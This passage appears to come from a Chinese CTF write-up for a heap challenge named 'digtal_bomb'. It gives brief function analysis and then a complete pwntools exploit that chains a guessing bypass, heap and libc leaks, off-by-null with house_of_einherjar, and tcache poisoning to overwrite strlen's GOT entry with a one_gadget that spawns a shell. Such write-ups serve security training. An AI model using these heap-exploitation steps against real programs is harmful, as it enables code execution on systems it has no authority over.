

然后跟进`free`函数，正常的`free`，不存在`UAF`漏洞



跟进`show`函数，会打印堆块内容



最后跟进`edit_one`函数，只有一次编辑功能，且和申请的编辑不一样，不存在`/x00`截断，可以配合`show`函数进行地址泄露



### 漏洞利用

* 利用炸断数生成缺陷，绕过炸弹，进入heap功能
* 利用`largerbin`和`edit`函数泄露`heap`地址
* 利用`off-by-null`漏洞配合`house_of_einherjar`攻击手法造成堆块重叠
* 利用堆块重叠泄露地址泄露`libc`地址
* 利用堆块重叠修改堆块`fd`指针
* 打`libc.got`，修改`strlen`的`got`表为`onegadget`

### EXP

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
Basic PWN Template - basis Template 
Author: p0ach1l
Date: 2025-09-09
description: no description
"""

from pwn import *
from ctypes import *
from LibcSearcher import *
from pwnscript import *

filename = "./digtal_bomb"
url = ''
gdbscript = '''
  b * main
'''
set_context(log_level='debug', arch='amd64', os='linux', endian='little', timeout=5)
p = pr(url=url , filename=filename , gdbscript=gdbscript , framepath='')
elf = ELF(filename)
libc = ELF('./libc.so.6')

def choice(idx) :
  p.sendlineafter('Your choice >>', str(idx))

def add(idx , size , content) :
  choice(1)
  p.sendlineafter('Index >> 
', str(idx))
  p.sendlineafter('Size >> 
', str(size))
  sleep(0.1)
  p.send(content)

def free(idx) :
  choice(2)
  p.sendlineafter('Index >> 
', str(idx))

def show(idx) :
  choice(3)
  p.sendlineafter('Index >> 
', str(idx))

def edit(idx, content) :
  choice(666)
  p.sendlineafter('Index >> 
', str(idx))
  sleep(0.1)
  p.send(content)

def begin() :
  p.sendlineafter('Enter min (0-500): ', str(499))
  p.sendlineafter("Enter max (0-500): " , str(500))
  p.sendlineafter("Your guess :" , str(500))

begin()

add(0 , 0x490 , b'a')
add(1 , 0xf8 , b'b')
free(0)
add(2 , 0x4f0 , b'c')
add(0 , 0x490 , b'd')
edit(0 , b'a' * 0x10)

show(0)
p.recvuntil(b'a' * 0x10)
heap_addr = u64(p.recv(6).ljust(8, b'\x00'))
free(0)
free(2)
free(1)

add(7 , 0xf8, b'e')

payload = p64(0) + p64(0x90) + p64(heap_addr + 0x10) * 2
add(0 , 0x38 , payload)

add(1 , 0x28 , b'g')
add(2 , 0x28 , b'h')
add(3 , 0xf8 , p64(0) * 2)

free(2)
payload = p64(0) * 4 + p64(0x90)
add(2 , 0x28 , payload)

add(4 , 0xf8 , b'i')
add(5 , 0xf8 , b'j')
add(6 , 0xf8 , b'k')
free(7)
add(7 , 0xf8 , b'l')
add(8 , 0xf8 , b'm')
add(9 , 0xf8 , b'n')
add(10, 0xf8 , b'o')

for i in range(4, 11):
  free(i)

free(3)
add(3 , 0x28 , b'a')

show(1)
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x21ace0 

add(4 , 0x158 , b'f')
add(5 , 0x28 , b'g')

free(5)
free(2)
free(4)

strlen_got = libc_base + 0x21A090
fake_fd = strlen_got ^ (heap_addr >> 12)
print(p64(fake_fd))
payload = p64(0) * 5 + p64(0x31) + p64(fake_fd)[:-2]
add(4 , 0x158 , payload)

'''
0xebc81 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebc85 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebc88 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebce2 execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
  r13 == NULL || {"/bin/sh", r13, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xebd38 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebd3f execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  rax == NULL || {rax, r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebd43 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {rax, [rbp-0x48], NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
'''
oggs = [0xebc81 , 0xebc85, 0xebc88, 0xebce2, 0xebd38, 0xebd3f, 0xebd4]
ogg = libc_base + oggs[1]
add(2 , 0x28 , b'g')
lss("strlen_got")
pause()

payload =  p64(libc_base + 0x000000000021A090) + p64(ogg)[:-2]
add(5 , 0x28 , payload)

lss("strlen_got")
lss("heap_addr")
lss("libc_base")
p.interactive()
```
